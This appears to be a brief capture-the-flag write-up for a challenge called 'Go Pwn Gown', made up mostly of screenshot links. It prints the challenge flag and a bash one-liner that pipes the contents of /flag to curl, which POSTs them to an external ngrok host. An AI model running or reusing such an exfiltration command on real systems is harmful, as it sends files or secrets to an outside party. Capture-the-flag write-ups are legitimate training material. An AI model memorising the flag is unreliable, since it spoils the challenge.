 # Go Pwn Gown (day7)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S5ahh je dis des conneries il me semble , j'avais passé un coup de radius2john et de john donc y'a surement.png" alt="Desc"></p>

````bash
#!/bin/bash
cat /flag/* | curl -X POST --data @- http://6.tcp.eu.ngrok.io:13524/
````

Flag : _RM{OffenSkillSaysWhat2024YouGotGowned}_ , thanks _Laluka_ for this challenge !
